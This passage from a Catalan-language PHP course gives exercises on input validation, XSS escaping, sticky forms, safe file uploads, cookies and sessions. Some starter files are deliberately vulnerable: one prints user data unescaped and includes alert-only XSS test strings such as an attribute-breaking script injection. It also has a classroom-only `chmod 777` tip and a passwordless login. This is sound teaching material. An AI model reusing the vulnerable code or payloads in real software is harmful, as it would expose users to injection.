                <input type="email" id="email" name="email" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <div>
                <label for="web" class="block text-sm font-semibold text-gray-700 mb-1">
                    Web <span class="font-normal text-gray-500">(opcional)</span>
                </label>
                <input type="url" id="web" name="web" placeholder="https://..." class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <div>
                <label for="pressupost" class="block text-sm font-semibold text-gray-700 mb-1">Pressupost estimat (€)</label>
                <input type="text" id="pressupost" name="pressupost" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <button type="submit" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">
                Donar d'alta
            </button>
        </form>

    </div>

</body>
</html>
```
:::

**Objectiu:** Validar les dades al servidor amb `trim()` i `filter_var()` (`FILTER_VALIDATE_EMAIL`, `FILTER_VALIDATE_URL` i `FILTER_VALIDATE_INT` amb rang), acumulant tots els errors en un array.

Tasques a fer dins del fitxer (les dades ja estan capturades a les variables `$nom`, `$email`, `$web` i `$pressupost`):

1. A `TODO 1`, comprova que `$nom` no estiga buit. Si ho està, afig el missatge `'El nom és obligatori.'` a `$errors`.
2. A `TODO 2`, comprova que `$email` siga vàlid amb `filter_var()` i `FILTER_VALIDATE_EMAIL`. Si no ho és, afig el missatge `'L\'email no és vàlid.'`.
3. A `TODO 3`, la web és opcional: només si s'ha escrit alguna cosa (`$web !== ''`), comprova que siga una URL vàlida amb `FILTER_VALIDATE_URL`. Missatge: `'La web no és una URL vàlida.'`.
4. A `TODO 4`, comprova que `$pressupost` siga un enter entre 0 i 100000 amb `FILTER_VALIDATE_INT` i les opcions `min_range` i `max_range`. Missatge: `'El pressupost ha de ser un enter entre 0 i 100000.'`.
5. Prova el formulari amb diverses combinacions: tot correcte, tot buit, un email com `abc`, una web com `ex`, i pressuposts com `0`, `abc`, `-5` i `100001`. Comprova que es mostren tots els errors alhora.

**Pista:** El formulari porta l'atribut `novalidate` perquè el navegador no valide per nosaltres i puguem provar la validació del servidor (que és l'única fiable). Fixa't que `0` és un pressupost vàlid: `filter_var()` retorna `false` quan falla, així que has de comparar amb `=== false` (amb `empty()` es rebutjaria el `0`). Per ara els camps es buiden en enviar; al 4.4 farem que el formulari recorde el que s'havia escrit.

#### Exercici 4.3 — Evitar XSS

**Fitxer de partida:** `exercici4.3.php`

::: details **📄 exercici4.3.php**

```php
<?php
    // TODO 1: Defineix la funció e(string $valor): string que retorne
    // htmlspecialchars($valor, ENT_QUOTES, 'UTF-8')

    // Comentaris de mostra (ja proporcionats). Fixa't en el segon i el tercer!
    $comentaris = [
        ['autor' => 'Aina',                 'text' => 'Molt interessada en el pressupost de la web.'],
        ['autor' => 'Visitant',             'text' => '<script>alert("XSS: este codi s\'ha executat!")</script>'],
        ['autor' => 'Marc <b>(client)</b>', 'text' => 'Ens agrada l\'enfocament "cloud" & la proposta.'],
    ];

    $cerca = $_GET['q'] ?? '';
?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 4.3 - XSS</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: només has de modificar les etiquetes d'eixida que indiquen els TODO -->
    <div class="max-w-xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Notes sobre el lead · TechLeads</h1>

        <div class="bg-white p-6 rounded-lg shadow-md">
            <h2 class="text-lg font-semibold text-gray-800 mb-3">Cerca en les notes</h2>

            <?php /* TODO 3: Sanea $cerca amb e() tant en l'atribut value de l'input com en el text dels resultats */ ?>
            <form method="GET" action="" class="flex gap-2 mb-3">
                <input type="text" name="q" value="<?= $cerca ?>" class="flex-1 border border-gray-300 rounded px-3 py-2">
                <button type="submit" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">Cerca</button>
            </form>

            <?php if ($cerca !== ''): ?>
                <p class="text-gray-700 mb-1">Resultats per a: <span class="font-semibold text-purple-700"><?= $cerca ?></span></p>

                <?php /* TODO 4: Dins d'una URL no s'usa e(): codifica $cerca amb urlencode() */ ?>
                <a href="?q=<?= $cerca ?>" class="text-blue-600 hover:underline">Repetir la cerca</a>
            <?php endif; ?>
        </div>

        <div class="bg-white p-6 rounded-lg shadow-md">
            <h2 class="text-lg font-semibold text-gray-800 mb-1">Comentaris</h2>

            <?php /* TODO 2: Sanea amb e() l'autor i el text de cada comentari */ ?>
            <?php foreach ($comentaris as $comentari): ?>
                <div class="border-b py-3">
                    <p class="font-semibold text-gray-800"><?= $comentari['autor'] ?></p>
                    <p class="text-gray-600"><?= $comentari['text'] ?></p>
                </div>
            <?php endforeach; ?>
        </div>

    </div>

</body>
</html>
```
:::

**Objectiu:** Sanejar amb `htmlspecialchars()` les dades que s'imprimixen en HTML (contingut i atributs) i codificar amb `urlencode()` les que van dins d'una URL.

En obrir la pàgina saltarà un `alert()`: és un comentari maliciós que s'està executant al teu navegador. La teua tasca és impedir-ho.

Tasques a fer dins del fitxer:

1. A `TODO 1`, defineix la funció `e(string $valor): string` que retorne `htmlspecialchars($valor, ENT_QUOTES, 'UTF-8')`.
2. A `TODO 2`, sanea amb `e()` l'autor i el text de cada comentari (les dues etiquetes `<?= ... ?>` de dins del `foreach`).
3. A `TODO 3`, sanea `$cerca` amb `e()` en els dos llocs on s'imprimix: l'atribut `value` de l'input i el text «Resultats per a».
4. A `TODO 4`, en l'enllaç «Repetir la cerca», codifica `$cerca` amb `urlencode()` (dins d'una URL no s'usa `e()`).
5. Comprova el resultat: recarrega la pàgina (el `<script>` s'ha de veure com a text, sense executar-se) i prova estes cerques en la URL:
   - `?q=<b>hola</b> & adéu`
   - `?q="><script>alert(1)</script>`

**Pista:** El sanejat es fa **en el moment d'imprimir**, no en el de rebre la dada. Fixa't que la segona cerca aprofita les cometes per «tancar» l'atribut `value` i injectar codi: per això cal `ENT_QUOTES`, que també escapa les cometes.

#### Exercici 4.4 — Sticky forms

**Fitxer de partida:** `exercici4.4.php`

::: details **📄 exercici4.4.php**

```php
<?php
    function e(string $valor): string {
        return htmlspecialchars($valor, ENT_QUOTES, 'UTF-8');
    }

    // Dades de suport per al formulari (ja proporcionades)
    $serveis    = ['web' => 'Desenvolupament web', 'app' => 'Aplicació mòbil', 'seo' => 'Consultoria SEO'];
    $prioritats = ['alta' => 'Alta', 'mitjana' => 'Mitjana', 'baixa' => 'Baixa'];
    $interessosDisponibles = ['facturacio' => 'Facturació', 'crm' => 'CRM', 'analitica' => 'Analítica'];

    $errors   = [];
    $enviatOk = false;

    $nom           = '';
    $email         = '';
    $servei        = '';
    $prioritat     = '';
    $interessos    = [];
    $acceptaTermes = false;

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        // Captura de dades (ja proporcionada)
        $nom           = trim($_POST['nom'] ?? '');
        $email         = trim($_POST['email'] ?? '');
        $servei        = $_POST['servei'] ?? '';
        $prioritat     = $_POST['prioritat'] ?? '';
        $interessos    = $_POST['interessos'] ?? [];
        $acceptaTermes = isset($_POST['termes']);

        // Validació (ja proporcionada)
        if ($nom === '') {
            $errors[] = 'El nom és obligatori.';
        }
        if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            $errors[] = 'L\'email no és vàlid.';
        }
        if (!array_key_exists($servei, $serveis)) {
            $errors[] = 'Has de triar un servei.';
        }
        if (!array_key_exists($prioritat, $prioritats)) {
            $errors[] = 'Has de triar una prioritat.';
        }
        if (!$acceptaTermes) {
            $errors[] = 'Has d\'acceptar els termes i condicions.';
        }

        if (empty($errors)) {
            // TODO 1: Les dades són vàlides. Marca $enviatOk com a true i buida tots els valors
            // ($nom, $email, $servei, $prioritat, $interessos i $acceptaTermes) tornant-los
            // al seu estat inicial, perquè el formulari es mostre buit després d'un enviament correcte
        }
    }
?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 4.4 - Sticky forms</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: només has de completar els atributs que indiquen els TODO (2 al 6) -->
    <div class="max-w-xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Alta de lead · TechLeads</h1>

        <?php if ($enviatOk): ?>
            <div class="bg-green-100 border border-green-300 text-green-800 px-4 py-3 rounded">
                Lead donat d'alta correctament!
            </div>
        <?php endif; ?>

        <?php if (!empty($errors)): ?>
            <div class="bg-red-100 border border-red-300 text-red-800 px-4 py-3 rounded">
                <ul class="list-disc list-inside">
                    <?php foreach ($errors as $error): ?>
                        <li><?= e($error) ?></li>
                    <?php endforeach; ?>
                </ul>
            </div>
        <?php endif; ?>

        <form method="POST" action="" novalidate class="bg-white p-6 rounded-lg shadow-md space-y-4">

            <?php /* TODO 2: Fes que els camps nom i email recorden el valor, escrivint-lo en value="" sanejat amb e() */ ?>
            <div>
                <label for="nom" class="block text-sm font-semibold text-gray-700 mb-1">Nom</label>
                <input type="text" id="nom" name="nom" value="" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <div>
                <label for="email" class="block text-sm font-semibold text-gray-700 mb-1">Email</label>
                <input type="email" id="email" name="email" value="" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <div>
                <label for="servei" class="block text-sm font-semibold text-gray-700 mb-1">Servei</label>
                <select id="servei" name="servei" class="w-full border border-gray-300 rounded px-3 py-2">
                    <option value="">-- Selecciona --</option>
                    <?php foreach ($serveis as $codi => $etiqueta): ?>
                        <option value="<?= e($codi) ?>" <?php /* TODO 3: afig selected si $servei coincideix amb $codi */ ?>><?= e($etiqueta) ?></option>
                    <?php endforeach; ?>
                </select>
            </div>

            <fieldset>
                <legend class="block text-sm font-semibold text-gray-700 mb-1">Prioritat</legend>
                <div class="flex gap-4 text-gray-700">
                    <?php foreach ($prioritats as $codi => $etiqueta): ?>
                        <label class="flex items-center gap-2">
                            <input type="radio" name="prioritat" value="<?= e($codi) ?>" <?php /* TODO 4: afig checked si $prioritat coincideix amb $codi */ ?>>
                            <?= e($etiqueta) ?>
                        </label>
                    <?php endforeach; ?>
                </div>
            </fieldset>

            <fieldset>
                <legend class="block text-sm font-semibold text-gray-700 mb-1">Àrees d'interés</legend>
                <div class="flex flex-wrap gap-4 text-gray-700">
                    <?php foreach ($interessosDisponibles as $codi => $etiqueta): ?>
                        <label class="flex items-center gap-2">
                            <input type="checkbox" name="interessos[]" value="<?= e($codi) ?>" <?php /* TODO 5: afig checked si $codi està dins de l'array $interessos (in_array) */ ?>>
                            <?= e($etiqueta) ?>
                        </label>
                    <?php endforeach; ?>
                </div>
            </fieldset>

            <label class="flex items-center gap-2 text-gray-700">
                <input type="checkbox" name="termes" <?php /* TODO 6: afig checked si $acceptaTermes és true */ ?>>
                Accepte els termes i condicions
            </label>

            <button type="submit" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">
                Donar d'alta
            </button>
        </form>

    </div>

</body>
</html>
```
:::

**Objectiu:** Fer que un formulari recorde els valors que l'usuari ja havia introduït quan hi ha errors, tant en camps de text com en `select`, `radio` i `checkbox`.

El formulari ja captura i valida les dades. Tasques a fer dins del fitxer:

1. A `TODO 1`, quan no hi ha errors, marca `$enviatOk` com a `true` i buida tots els valors (`$nom`, `$email`, `$servei`, `$prioritat`, `$interessos` i `$acceptaTermes`), tornant-los al seu estat inicial perquè el formulari es mostre buit.
2. A `TODO 2`, fes que els inputs de nom i email recorden el valor escrivint-lo en el seu `value=""`, sanejat amb `e()`.
3. A `TODO 3`, afig l'atribut `selected` a l'`option` que coincidisca amb `$servei`.
4. A `TODO 4`, afig l'atribut `checked` al `radio` que coincidisca amb `$prioritat`.
5. A `TODO 5`, afig l'atribut `checked` als checkboxes múltiples els valors dels quals estiguen dins de l'array `$interessos` (`in_array()`).
6. A `TODO 6`, afig l'atribut `checked` al checkbox dels termes si `$acceptaTermes` és `true`.
7. Prova el formulari deixant-ne alguns camps sense omplir: els que sí havies omplit han de continuar amb el seu valor. Prova també un nom amb cometes, com `Aina "Soler"`. Després envia'l correctament i comprova que es mostra buit.

**Pista:** Per a `selected` i `checked` s'escriu una comparació que retorne l'atribut o una cadena buida, per exemple `<?= $servei === $codi ? 'selected' : '' ?>`. Eixes cadenes són fixes, no dades de l'usuari, així que **no** cal passar-les per `e()`. El `value` sí: és una dada de l'usuari.

#### Exercici 4.5 — Pujar el logo d'una empresa

**Fitxer de partida:** `exercici4.5.php` i la carpeta `pujades/` (ja creada, on es guardaran les imatges)

::: details **📄 exercici4.5.php**

```php
<?php
    $errors   = [];
    $nomFinal = null;

    $carpetaDesti    = __DIR__ . '/pujades/';
    $grandariaMaxima = 2 * 1024 * 1024; // 2 MB
    $tipusPermesos   = ['image/jpeg' => 'jpg', 'image/png' => 'png', 'image/webp' => 'webp'];

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $arxiu = $_FILES['logo'] ?? null;

        // TODO 1: Si $arxiu és null o el seu camp 'error' és diferent de UPLOAD_ERR_OK,
        // afig a $errors el missatge 'No s\'ha pujat cap arxiu o s\'ha produït un error en la pujada.'

        // TODO 2: Només si no hi ha errors: si el camp 'size' supera $grandariaMaxima,
        // afig a $errors el missatge 'L\'arxiu no pot superar els 2 MB.'

        // TODO 3: Només si no hi ha errors: obtín el tipus real de l'arxiu temporal amb finfo
        // (new finfo(FILEINFO_MIME_TYPE) i el mètode file() sobre 'tmp_name') i guarda'l en $tipusReal.
        // Si $tipusReal no és una clau de $tipusPermesos, afig a $errors el missatge
        // 'Només es permeten imatges JPEG, PNG o WEBP.'

        // TODO 4: Només si no hi ha errors: genera un nom únic amb uniqid('logo_', true), seguit d'un punt
        // i de l'extensió que corresponga a $tipusReal segons $tipusPermesos, i guarda'l en $nomFinal.
        // Mou l'arxiu a $carpetaDesti . $nomFinal amb move_uploaded_file().
        // Si move_uploaded_file() falla, afig a $errors el missatge 'No s\'ha pogut guardar l\'arxiu.'
        // i torna a posar $nomFinal a null
    }
?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 4.5 - Pujar arxius</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Logo de l'empresa · TechLeads</h1>

        <?php if (!empty($errors)): ?>
            <div class="bg-red-100 border border-red-300 text-red-800 px-4 py-3 rounded">
                <ul class="list-disc list-inside">
                    <?php foreach ($errors as $error): ?>
                        <li><?= htmlspecialchars($error) ?></li>
                    <?php endforeach; ?>
                </ul>
            </div>
        <?php endif; ?>

        <?php if ($nomFinal !== null): ?>
            <div class="bg-green-100 border border-green-300 text-green-800 px-4 py-3 rounded">
                <p class="mb-3">Logo pujat correctament com a <span class="font-semibold"><?= htmlspecialchars($nomFinal) ?></span></p>
                " alt="Logo pujat" class="h-32 rounded border border-green-300 bg-white p-1">
            </div>
        <?php endif; ?>

        <form method="POST" action="" enctype="multipart/form-data" class="bg-white p-6 rounded-lg shadow-md space-y-4">
            <div>
                <label for="logo" class="block text-sm font-semibold text-gray-700 mb-1">
                    Selecciona el logo <span class="font-normal text-gray-500">(JPEG, PNG o WEBP, màx. 2 MB)</span>
                </label>
                <input type="file" id="logo" name="logo" class="w-full text-gray-700">
            </div>

            <button type="submit" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">
                Pujar
            </button>
        </form>

    </div>

</body>
</html>
```
:::

**Objectiu:** Gestionar la pujada d'un arxiu de manera segura: comprovar el codi d'error i la grandària, validar el tipus real amb `finfo`, generar un nom propi i moure l'arxiu amb `move_uploaded_file()`.

Nota: Apache ha de poder escriure a la carpeta `pujades/`. Si obtens l'error «No s'ha pogut guardar l'arxiu», dona-li permisos d'escriptura (en Docker, per a esta pràctica de classe, sol bastar `chmod 777 pujades`).

Tasques a fer dins del fitxer:

1. A `TODO 1`, comprova que s'ha pujat un arxiu sense errors (`$arxiu` no és `null` i el seu camp `'error'` és `UPLOAD_ERR_OK`). Si no és així, afig el missatge `'No s\'ha pujat cap arxiu o s\'ha produït un error en la pujada.'`.
2. A `TODO 2`, només si no hi ha errors, comprova que la grandària (`'size'`) no supere `$grandariaMaxima`. Missatge: `'L\'arxiu no pot superar els 2 MB.'`.
3. A `TODO 3`, només si no hi ha errors, obtín el tipus real de l'arxiu temporal amb `finfo` i comprova que és una clau de `$tipusPermesos`. Missatge: `'Només es permeten imatges JPEG, PNG o WEBP.'`.
4. A `TODO 4`, només si no hi ha errors, genera un nom únic amb `uniqid('logo_', true)` seguit de l'extensió que corresponga al tipus real, i mou l'arxiu a `pujades/` amb `move_uploaded_file()`. Si falla, afig el missatge `'No s\'ha pogut guardar l\'arxiu.'` i torna a posar `$nomFinal` a `null`.
5. Prova estos casos: una imatge PNG o JPG vàlida, un arxiu de text amb l'extensió canviada a `.png`, enviar el formulari sense triar cap arxiu i una imatge de més de 2 MB.

**Pista:** No et fies mai de `$_FILES['logo']['type']` ni del nom original: els envia el navegador i es poden falsificar. Per això el tipus es comprova llegint el contingut (`finfo`) i l'extensió s'obté d'eixe tipus real (`$tipusPermesos`) en lloc de copiar-la del nom que envia l'usuari. Si la imatge de més de 2 MB no arriba al teu control de grandària, és perquè el `php.ini` (`upload_max_filesize`) ja la ha rebutjat abans i, en eixe cas, saltarà l'error del `TODO 1`.


### 10.5. Cookies i sessions

#### Exercici 5.1 — Cookie de preferències

**Fitxer de partida:** `exercici5.1.php`

:::details **📄 exercici5.1.php**

```php
<?php
    // TODO 1: Si $_GET['tema'] val 'clar' o 'fosc' (comprova-ho amb in_array), crea la cookie 'tema'
    // amb setcookie(): valor = el tema rebut, expira en 30 dies, path '/' i httponly activat.
    // Després redirigeix a 'exercici5.1.php' amb header('Location: ...') i exit

    // TODO 2: Si $_GET['tema'] val 'esborrar', elimina la cookie 'tema' (data d'expiració
    // en el passat i path '/') i redirigeix a 'exercici5.1.php' amb exit

    // TODO 3: Llig la cookie 'tema' de $_COOKIE amb ?? (per defecte 'clar') i guarda-la en $tema

?>
<?php $fosc = $tema === 'fosc'; ?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 5.1 - Cookie de preferències</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="<?= $fosc ? 'bg-gray-900 text-gray-100' : 'bg-gray-100 text-gray-800' ?> min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold">Preferències · TechLeads</h1>

        <div class="<?= $fosc ? 'bg-gray-800' : 'bg-white' ?> p-6 rounded-lg shadow-md space-y-4">
            <p>Tema actual: <span class="font-semibold"><?= $fosc ? 'fosc' : 'clar' ?></span></p>
            <p class="text-sm opacity-75">
                Valor de la cookie <code>tema</code>:
                <?= htmlspecialchars($_COOKIE['tema'] ?? '(no definida)') ?>
            </p>

            <div class="flex flex-wrap gap-3">
                <a href="?tema=clar" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">Mode clar</a>
                <a href="?tema=fosc" class="bg-purple-600 hover:bg-purple-700 text-white font-semibold px-4 py-2 rounded">Mode fosc</a>
                <a href="?tema=esborrar" class="bg-gray-400 hover:bg-gray-500 text-white font-semibold px-4 py-2 rounded">Oblidar preferència</a>
            </div>
        </div>

    </div>

</body>
</html>
```
:::

**Objectiu:** Crear, llegir i eliminar una cookie amb `setcookie()` i `$_COOKIE`, entenent que la cookie no estarà disponible fins a la petició següent.

Tasques a fer dins del fitxer:

1. A `TODO 1`, si `$_GET['tema']` val `'clar'` o `'fosc'` (comprova-ho amb `in_array()`), crea la cookie `tema` amb `setcookie()`: el valor és el tema rebut, expira en 30 dies (`time() + 3600 * 24 * 30`), amb `path` `'/'` i `httponly` activat. Després redirigeix a `exercici5.1.php` amb `header('Location: ...')` i `exit`.
2. A `TODO 2`, si `$_GET['tema']` val `'esborrar'`, elimina la cookie `tema` (amb una data d'expiració en el passat i el mateix `path`) i redirigeix a `exercici5.1.php` amb `exit`.
3. A `TODO 3`, llig la cookie `tema` de `$_COOKIE` amb `??` (per defecte, `'clar'`) i guarda-la en `$tema`.
4. Prova la pàgina: tria el mode fosc, recarrega-la, tanca la pestanya i torna-la a obrir. Comprova la cookie a les eines de desenvolupador (pestanya *Aplicació* o *Emmagatzematge* → *Cookies*): veuràs la data d'expiració i que és `HttpOnly`. Després prem «Oblidar preferència».

**Pista:** `setcookie()` envia una capçalera HTTP, per això el bloc PHP està al principi del fitxer, abans de qualsevol eixida. Una cookie acabada de crear **no** està a `$_COOKIE` fins a la petició següent: per això, després de crear-la, es redirigeix a la mateixa pàgina. Si vols comprovar-ho, comenta temporalment la redirecció i observa que el canvi de tema no es veu fins a recarregar. Fixa't també que el valor que es guarda a la cookie ve de la URL, per això només s'accepten els valors `'clar'` i `'fosc'`. Les cookies de `localhost` es comparteixen entre ports, així que pot haver-hi cookies d'altres projectes teus.

#### Exercici 5.2 — Comptador de visites amb sessió

**Fitxer de partida:** `exercici5.2.php`

:::details **📄 exercici5.2.php**

```php
<?php
    // TODO 1: Inicia la sessió amb session_start()

    // TODO 2: Si $_GET['accio'] val 'reiniciar', buida $_SESSION (amb un array buit),
    // destruïx la sessió amb session_destroy() i redirigeix a 'exercici5.2.php' amb exit

    // TODO 3: Incrementa en 1 el comptador $_SESSION['visites']
    // (si encara no existix, ha de començar en 0)

    // TODO 4: Si $_SESSION['primera_visita'] encara no existix,
    // guarda-hi l'hora actual amb date('H:i:s')

    // TODO 5: Guarda $_SESSION['visites'] en $visites
    // i $_SESSION['primera_visita'] en $primeraVisita

?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 5.2 - Comptador de visites</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen flex items-center justify-center p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="bg-white p-8 rounded-lg shadow-md max-w-md w-full text-center space-y-4">
        <h1 class="text-2xl font-bold text-gray-800">Àrea de clients · TechLeads</h1>

        <p class="text-gray-700">
            Has visitat esta pàgina
            <span class="text-3xl font-bold text-blue-700 block my-2"><?= (int) $visites ?></span>
            <?= $visites === 1 ? 'vegada' : 'vegades' ?> en esta sessió.
        </p>
        <p class="text-sm text-gray-500">Primera visita: <?= htmlspecialchars($primeraVisita) ?></p>

        <div class="flex justify-center gap-3">
            <a href="exercici5.2.php" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">Recarregar</a>
            <a href="?accio=reiniciar" class="bg-red-500 hover:bg-red-600 text-white font-semibold px-4 py-2 rounded">Reiniciar sessió</a>
        </div>
    </div>

</body>
</html>
```
:::

**Objectiu:** Iniciar una sessió amb `session_start()`, guardar i llegir dades a `$_SESSION` i destruir la sessió.

Tasques a fer dins del fitxer:

1. A `TODO 1`, inicia la sessió amb `session_start()`.
2. A `TODO 2`, si `$_GET['accio']` val `'reiniciar'`, buida `$_SESSION` (amb un array buit), destruïx la sessió amb `session_destroy()` i redirigeix a `exercici5.2.php` amb `exit`.
3. A `TODO 3`, incrementa en 1 el comptador `$_SESSION['visites']` (si encara no existix, ha de començar en 0).
4. A `TODO 4`, si `$_SESSION['primera_visita']` encara no existix, guarda-hi l'hora actual amb `date('H:i:s')`.
5. A `TODO 5`, guarda `$_SESSION['visites']` en `$visites` i `$_SESSION['primera_visita']` en `$primeraVisita`.
6. Prova la pàgina: recarrega-la diverses vegades i comprova que el comptador puja i que la primera visita no canvia. Obri-la en una finestra privada per a comprovar que és una sessió independent, i prova el botó «Reiniciar sessió».

**Pista:** `session_start()` ha d'anar al principi de l'script, abans de qualsevol eixida. A les eines de desenvolupador (*Cookies*) veuràs la cookie `PHPSESSID`: el navegador només guarda eixe identificador, les dades (`visites`, `primera_visita`) viuen al servidor. Per això el comptador és diferent en cada navegador.

#### Exercici 5.3 — Control d'accés amb sessió

**Carpeta de partida:** `exercici5.3/`, amb els fitxers `login.php`, `pagina_privada.php` i `logout.php`

:::details **📄 exercici5.3/login.php**

```php
<?php
    // TODO 1: Inicia la sessió amb session_start()

    // Usuaris autoritzats i el seu rol (ja proporcionat).
    // En este exercici no hi ha contrasenya: l'autenticació real, amb password_hash(),
    // la farem al punt 6
    $usuaris = ['ana' => 'comercial', 'marc' => 'administrador'];
    $errors  = [];

    // TODO 2: Si l'usuari ja té la sessió iniciada ($_SESSION['usuari'] existix),
    // redirigeix a 'pagina_privada.php' amb exit

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $usuari = trim($_POST['usuari'] ?? '');

        // TODO 3: Si $usuari és una clau de l'array $usuaris, guarda en $_SESSION['usuari'] el seu nom
        // i en $_SESSION['rol'] el rol que li corresponga, i redirigeix a 'pagina_privada.php' amb exit.
        // Si no, afig a $errors el missatge 'Accés denegat: usuari no reconegut.'
    }
?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 5.3 - Iniciar sessió</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen flex items-center justify-center p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-sm w-full space-y-4">

        <?php foreach ($errors as $error): ?>
            <div class="bg-red-100 border border-red-300 text-red-800 px-4 py-3 rounded"><?= htmlspecialchars($error) ?></div>
        <?php endforeach; ?>

        <form method="POST" action="" class="bg-white p-8 rounded-lg shadow-md space-y-4">
            <h1 class="text-2xl font-bold text-gray-800">Iniciar sessió</h1>
            <p class="text-sm text-gray-500">Usuaris de prova: <code>ana</code> i <code>marc</code></p>

            <div>
                <label for="usuari" class="block text-sm font-semibold text-gray-700 mb-1">Usuari</label>
                <input type="text" id="usuari" name="usuari" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <button type="submit" class="w-full bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">
                Entrar
            </button>
        </form>

    </div>

</body>
</html>
```
:::

:::details **📄 exercici5.3/pagina_privada.php**

```php
<?php
    // TODO 1: Inicia la sessió amb session_start()

    // TODO 2: Si NO existix $_SESSION['usuari'], redirigeix a 'login.php' amb exit

    // TODO 3: Guarda $_SESSION['usuari'] en $usuari i $_SESSION['rol'] en $rol

?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 5.3 - Pàgina privada</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-xl mx-auto space-y-6">

        <div class="bg-white p-6 rounded-lg shadow-md">
            <h1 class="text-2xl font-bold text-gray-800 mb-1">Benvingut/da, <?= htmlspecialchars($usuari) ?>!</h1>
            <p class="text-gray-600">Rol: <span class="font-semibold text-blue-700"><?= htmlspecialchars($rol) ?></span></p>
        </div>

        <?php if ($rol === 'administrador'): ?>
            <div class="bg-yellow-100 border border-yellow-300 text-yellow-800 px-4 py-3 rounded">
                Panell d'administració: només el veuen els administradors.
            </div>
        <?php endif; ?>

        <a href="logout.php" class="inline-block bg-red-500 hover:bg-red-600 text-white font-semibold px-4 py-2 rounded">
            Tancar sessió
        </a>

    </div>

</body>
</html>
```
:::

:::details **📄 exercici5.3/logout.php**

```php
<?php
    // TODO 1: Inicia la sessió amb session_start()

    // TODO 2: Buida $_SESSION amb un array buit i destruïx la sessió amb session_destroy()

    // TODO 3: Redirigeix a 'login.php' amb exit
```
:::

**Objectiu:** Utilitzar la sessió per a recordar que un usuari s'ha identificat, protegir una pàgina privada redirigint els visitants no identificats i tancar la sessió.

En este exercici no hi ha contrasenya: només es comprova que l'usuari estiga en una llista. Açò **no** és segur; l'autenticació real, amb `password_hash()` i `password_verify()`, la veurem al punt 6.

Tasques a fer:

1. A `login.php`, `TODO 1`: inicia la sessió amb `session_start()`.
2. A `login.php`, `TODO 2`: si l'usuari ja té la sessió iniciada (`$_SESSION['usuari']` existix), redirigeix a `pagina_privada.php` amb `exit`.
3. A `login.php`, `TODO 3`: si `$usuari` és una clau de l'array `$usuaris`, guarda en `$_SESSION['usuari']` el seu nom i en `$_SESSION['rol']` el rol que li corresponga, i redirigeix a `pagina_privada.php` amb `exit`. Si no, afig a `$errors` el missatge `'Accés denegat: usuari no reconegut.'`.
4. A `pagina_privada.php`, `TODO 1`: inicia la sessió amb `session_start()`.
5. A `pagina_privada.php`, `TODO 2`: si **no** existix `$_SESSION['usuari']`, redirigeix a `login.php` amb `exit`.
6. A `pagina_privada.php`, `TODO 3`: guarda `$_SESSION['usuari']` en `$usuari` i `$_SESSION['rol']` en `$rol`.
7. A `logout.php`, `TODO 1`: inicia la sessió amb `session_start()`.
8. A `logout.php`, `TODO 2`: buida `$_SESSION` amb un array buit i destruïx la sessió amb `session_destroy()`.
9. A `logout.php`, `TODO 3`: redirigeix a `login.php` amb `exit`.
